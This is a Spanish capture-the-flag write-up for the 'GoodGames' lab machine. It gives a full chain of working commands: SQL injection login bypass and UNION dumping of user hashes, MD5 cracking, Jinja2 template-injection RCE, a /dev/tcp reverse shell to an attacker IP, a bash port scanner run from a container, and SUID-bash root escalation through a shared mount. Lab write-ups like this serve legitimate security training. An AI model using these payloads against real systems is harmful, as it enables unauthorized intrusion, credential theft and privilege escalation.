# GoodGames

```bash
sudo nmap -p- --open -sCV --min-rate=5000 -n 10.129.69.130 -oN nmapResult.txt
```





- Si usamos gobuster nos devuelve un error
```bash
gobuster dir -u http://10.129.69.130 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x html,php,txt
```



Lo arreglamos añadiendo al final
```bash
--exclude-length 9265
```



- En *10.129.69.130/blog* vemos que ningún artículo9  nos redirige hacia otra pag excepto el de *GRAB YOUR SWORD AND FIGHT THE HORDE* -> Nos redirige hacia *10.129.69.130/blog/1*
(ese 1 me hace pensar maldades)
Intento probar sqli (404) o IDOR (500) y no encuntro nada a priori

- Encontramos un posible usuario *admin* que comenta en el blog. También hay otros como *Wolfestein, hitman* etc

- Vemos que a la hora de loguearnos no podemos intentar un SQLi o algún XSS ya que se nos pone en rojo el campo si no tiene un formato de correo,



Si interceptamos la petición con Burpsuite, y intentamos un bypass con sqli de la forma
```sql
' or 1=1-- -
```

(URLencodeando con ctrl+u)



Conseguimos acceder al usuario admin


- Arriba a la derecha vemos una tuerca nueva de opciones donde se nos dice que no se puede conectar a un *internal-administration.goodgames.htb*  -> a /etc/hosts

- Nos encontramos con un panel de login de *Flask Volt* ->



- intentaremos ahora enumerar datos de la base de datos. En lugar de
```sql
' or 1=1-- -
```

, ahora intentaremos enumerar el número de columnas que se lanzan en la query.
-
```sql
' order by 5-- -
```

- Para 5 o más no nos devuelve nada



- Para 4 o menos, vemos que se cumple la condición y nos logea correctamente



-
```sql
' union select 1,2,3,4-- -
```

(siempre urlencodeado por burp) -> vale no hace falta


Parece que el campo 4 es el que se muestra y utilizaremos para dumpear inforación

(Vengo del futuro. Ya resuelta la máquina podríamos probar a inyectar un SSTI con
```sql
' union select 1,2,3,*{{7*7}}
```

y si vieramos 14, significa que el servidor lo ha interpretado y que es vulnerable a SSTI, pero no es el caso, nos muestra el literal *{{7\*7}}*)

-
```sql
' union select 1,2,3,database()-- -
```

MAIN



-
```sql
' union select 1,2,3,schema_name from information_schema.schemata-- -
```

schemamain

-
```sql
' union select 1,2,3,group_concat(schema_name) from information_schema.schemata-- -
```

information_schema,main

-
```sql
' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='main'-- -
```

testblog,blog_comments,user

-
```sql
' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema='main' and table_name='user'-- -
```

email,id,name,password

-
```sql
' union select 1,2,3,group_concat(email,':',name,':',password) from user-- -
```

| admin@goodgames.htb | admin     | 2b22337f218b2d82dfc3b6f77e7cb8ec            |
| ------------------- | --------- | ------------------------------------------- |
| test@test.com       | test      | cc03e747a6afbbcbf8be7668acfebee5            |
| test1@test.com      | test&#39  | or 1=1-- -:5a105e8b9d40e1329780d62ea2265d8a |
| test2@test.com      | test&#34; | ad0234829205b9033196ba818f7a872b            |
Nos interesa la de admin, ya que las demás son creadas por nosotros
```bash
echo -n '2b22337f218b2d82dfc3b6f77e7cb8ec' | wc -m
```


- huele a MD5

- Lo pasamos por hashes.com



admin:admin@goodgames.htb:superadministrator

- Se podría haber hecho con john
- 1 Detectar el formato
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

- 2 Crackear
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
```

- Intentaremos ahora reutilizar estas credenciales en el login de *Flask Volt*
Estamos dentro



- Vemos que puede ser posible un SSTI, lo cual suele ser recurrente en python



Encontramos un repo con payloads para la etiqueta correcta (tendremos que encontrarla) para Flask, que está soportado por Jinja2 según se dice
- podríamos haber buscado con *payloadsalthethings*
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md



- Buscaremos algún payload de RCE para intentar lanzarnos una revshell



```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



Escribiendo esto en el campo de *Full Name* dentro de los settings de *My Profile* vemos que ejecutamos el comando id, el cual aparece en nuestro nombre interpretado por el sistema.

- Intentaremos lanzarnos una shell con el oneliner típico
```bash
nc -nlvp 443
```

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >&/dev/tcp/10.10.17.61/443 0>&1"').read() }}
```

root (dentro del docker)

No encuentro la flag asique me meto en */backed/project/apps/config.py* y veo ciertas credenciales



- Si hacemos
```bash
hostname -I
```



Vemos que NO estamos en la ip de la máquina víctima xd
- Es probable que estemos dentro de un contenedor

**ESCALADA**

- Consultamos las rutas del contenedor con
```bash
route -n
```



Podríamos pensar que la 172.19.0.1 es la interfaz que te asigna docker y a través de la cual podremos comunicarnos con la máquina víctima

- Vemos que existe un usuario *augustus* el cual no consta en /etc/passwd, por lo que nos hace pensar que el directorio /home/augustus está montado desde el host y está en un grupo 1000, el cual no figura en los grupos de /etc/group





- Vemos que existe una **montura**
```bash
mount | grep home
```



Está traída de /dev/sda1

- Nos montaremos un script para detectar puertos abiertos en la máquina víctima que solo está conectada a traves de la interfaz interna con el contenedor al que hemos ganado acceso.

- Para detectar puertos abiertos bastará con enviar una cadena vacía al puerto por /dev/tcp y comprobar si el código de estado de salida es exitoso o no, si lo es, siginificará que el puerto está abierto
```
#!/bin/bash

function ctrl_c(){
echo -e "\n\n[!] Saliendo...\n"
tput cnorm; exit 1
}

# Ctrl + C
trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do
timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Puerto $port - OPEN" &
done; wait
tput cnorm
```



-
```bash
timeout 1 bash
```

-> para que por cada comando no tarde más de un segundo si se quedara pillado
-
```bash
tput civis tput cnorm
```

-> quitan y dan el control del mouse respectivamente
-
```bash
&
```

-> al ponerlo al final del comando usa hilos para ir más rápido
·
```bash
&&
```

-> realiza el siguiente comando si el anterior ha sido satisfactorio (es decir, con código de salida exitoso)

- Nos lo base64 encodeamos y copiamos a la clipboard para pasarnoslo al contenedor vulnerado (no tiene nano, vi, etc donde editar código)
```bash
base64 -w 0 portScan.sh | xclip -sel clip
```

- Desde el contenedor vulnerado lo base64decodeamos y nos lo metemos en un archivo
```bash
echo IyEvYmluL2Jhc2gKCmZ1bmN0aW9uIGN0cmxfYygpewogIGVjaG8gLWUgIlxuXG5bIV0gU2FsaWVuZG8uLi5cbiIKICB0cHV0IGNub3JtOyBleGl0IDEKfQoKIyBDdHJsICsgQwp0cmFwIGN0cmxfYyBJTlQKCnRwdXQgY2l2aXMKZm9yIHBvcnQgaW4gJChzZXEgMSA2NTUzNSk7IGRvCiAgdGltZW91dCAxIGJhc2ggLWMgImVjaG8gJycgPiAvZGV2L3RjcC8xNzIuMTkuMC4xLyRwb3J0IiAyPi9kZXYvbnVsbCAmJiBlY2hvICJbK10gUHVlcnRvICRwb3J0IC0gT1BFTiIgJgpkb25lOyB3YWl0CnRwdXQgY25vcm0K | base64 -d > portScan.sh
```



- Le damos permisos de ejecución
```bash
chmod u+x portScan.sh
```

- Ejecutamos
```bash
./portScan.sh
```



- Probamos a reutilizar credenciales por ssh y conseguimos entrar con
**augustus:superadministrator**
augustus

- Vemos que ahora sí estamos en la máquina víctima



Dentro de esta máquina tenemos solo dos usuarios también, augustus y root

- Como tenemos muy pocos comandos (no están nano, getcap y alguno mas) vamos a exportarnos nuestro $PATH al de la máquina víctima
En nuestra máquina
```bash
echo $PATH
```

-> lo copiamos
En la víctima
```bash
export PATH=(lo copiado)
```

Ahora tenemos getcap

- capabilites -> solo ping NADA

- La jugada será, copiarnos la bash hacia el directorio donde está la montura en el contenedor. De esta forma, entraremos al contenedor (tenemos permisos de root) y le cambiaremos los permisos SUID a esa bash y le cambiaremos el grupo y propietario a root, que como está sincronizada con la máquina víctima nos permitirá acceder a root desde ella por el recurso compartido
- MV (tenemos permiso de agustus)
```bash
cd /home/augustus
cp /bin/bash .
exit
```

- Contenedor (tenemos permiso de root)
```bash
chmod u+s bash
chown root:root bash
ssh augustus@172.19.0.1
```

- MV (tenemos permiso de augustus pero ahora la bash tiene suid)
```bash
cd /home/augustus/
./bash -p
```

root
